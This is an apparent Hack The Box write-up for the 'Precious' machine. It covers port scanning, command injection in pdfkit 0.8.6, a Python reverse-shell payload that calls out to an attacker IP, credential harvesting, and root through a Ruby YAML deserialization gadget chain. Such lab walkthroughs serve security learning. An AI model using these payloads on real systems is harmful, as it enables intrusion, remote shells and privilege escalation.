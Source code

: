  theme: Hacker
 
 ![image](https://user-images.githubusercontent.com/87700008/205619578-28e109d5-9ede-4b75-95c0-fb74bc635c26.png)

https://app.hackthebox.com/machines/Precious

**Enumeration**:

_Rustscan_:

Started with a qucik Rustscan, found 3 open ports :

![image](https://user-images.githubusercontent.com/87700008/205620631-e8bad937-e8da-432e-b776-fab52239c64b.png)


    sudo rustscan -a 10.10.11.189 -- -A -T4 -vv -oN precious_nmap
    
    Open 10.10.11.189:22
    Open 10.10.11.189:80
    Open 10.10.11.189:8000
    
In the scan results there is a domain observed, i.e. http://precious.htb/

![image](https://user-images.githubusercontent.com/87700008/205621054-4212556d-c02c-4eeb-b170-41b379915db7.png)

So, to consolidate all results:

    On ports 80, nginx/1.18.0 is running
    On port 8000, SimpleHTTPServer 0.6 (Python 3.9.2) is running
    
Added the domain to the /etc/hosts file. After adding the domain browsed through that domain & found there is a website running to convert web page to PDF.
![image](https://user-images.githubusercontent.com/87700008/205623888-22706343-617f-434a-aec1-f55a1e35af90.png)

_Gobuster:_

Scanned the subdomain & vhost using gobuster but nothing found in both the scans:

![image](https://user-images.githubusercontent.com/87700008/205679805-8aa80909-6b18-4a91-ad67-c7b4896bae5d.png)
![image](https://user-images.githubusercontent.com/87700008/205679904-2647b99f-613f-4905-b878-5c9a297929c6.png)

As I didn't get any result from the gobuster scanning I tried some manual enumertaion & checked for the html source but nothing found there are well.😕

Then I thought to play with the webpage & started my own SimpleHttpServer on port 80 & in the parameter part I gave my own http server IP & clicked on submit.
Then the page redirected me to the PDF page of my directory :

![image](https://user-images.githubusercontent.com/87700008/205709502-88986f4c-3997-4ca4-a08c-ce4d9972df65.png)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Initial access:**

I downloaded the file from the page & checked for the metadata where I found the creator as "Generated by pdfkit v0.8.6":
![image](https://user-images.githubusercontent.com/87700008/205710041-713e2058-ed8f-45d4-9302-dd02e32798b1.png)
![image](https://user-images.githubusercontent.com/87700008/205710140-e3420cfd-24ae-443f-891b-4ca04621ff29.png)

I quickly searched for the exploit of "pdfkit 0.8.6" & landed on the page of an article with the PoC pubished by snyk mentioning the command injection vulnerability in the versions lower than 0.8.7, ref : https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
![image](https://user-images.githubusercontent.com/87700008/205710574-556b8712-4458-49f9-94fc-d3af74763033.png)

So as per the article I tried the exploit from myself in this webpage & it's working :

![image](https://user-images.githubusercontent.com/87700008/205711050-746a9e5b-fbff-470e-a021-0cde0a578a0f.png)
![image](https://user-images.githubusercontent.com/87700008/205711105-ae626667-8af6-4d4e-8b58-cfb0d1506e9b.png)
 
 At this point we are confirmed that the page is vulnerbale to the command injection vulnerability.

 I tried different payload here for reverse shell & python3 payload worked for me :
 
    http://IP/?name='%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

And I received the reverse shell :

![image](https://user-images.githubusercontent.com/87700008/205716608-5fa1a95c-a9ef-4fe5-91ba-37f75d7e0828.png)

Stablized the reverse shell:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export term=XTERM
    stty raw -echo; fg 
    
After searching many directories I found a directory located in ruby user folder name : '.bundle' in which I found another user 'henry' credentials:

![image](https://user-images.githubusercontent.com/87700008/205719193-a3d77efd-1d3e-402f-af69-3cfbdcf03a2e.png)

_User flag_ :

Using those credentials I quickly tried SSH & logged in successfully & retrieved the user flag 🙂(pwn3d!)

![image](https://user-images.githubusercontent.com/87700008/205719767-ab5f9b34-0345-4c98-a65e-9659b8be91d9.png)
![image](https://user-images.githubusercontent.com/87700008/205719911-4e5caa98-3a16-49f9-ac23-0d8f0b7780c9.png)

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Priv Esc:**

Now, as always I started with the manual enumeration & ran 'sudo -l', I got this :

    User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
    
Then I checked for the file content present in '/opt/update_dependencies.rb'. I am confused here at this point as there isn't anything present here whhich looks much helpful. 
Then with lot of searching I found a blog where it's mentioned some flaw in "Yaml.load" parameter which is also available in our file :

![image](https://user-images.githubusercontent.com/87700008/205723673-9d35da55-4701-4d33-be5b-50899f708684.png)
ref : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

This is vulnerable to "Yaml deserialization" attack:
![image](https://user-images.githubusercontent.com/87700008/205724218-37fec72d-5e49-40c9-b2d6-b6e56816cb6b.png)

I also found a PoC, ref : https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml
So, I created a file name 'dependencies.yml' & used this code taken from the PoC :

    - !ruby/object:Gem::Installer
    i: x
    - !ruby/object:Gem::SpecFetcher
    i: y
    - !ruby/object:Gem::Requirement
    requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod 4777"
         method_id: :resolve

_Root flag:_

And, ran the command :

    sudo /usr/bin/ruby /opt/update_dependencies.rb
    /bin/bash -p
    
This provided us the bash shell with root access 🙂(pwn3d!)

![image](https://user-images.githubusercontent.com/87700008/205726452-39f4a812-6e1c-41b0-b8db-f4b09089985f.png)
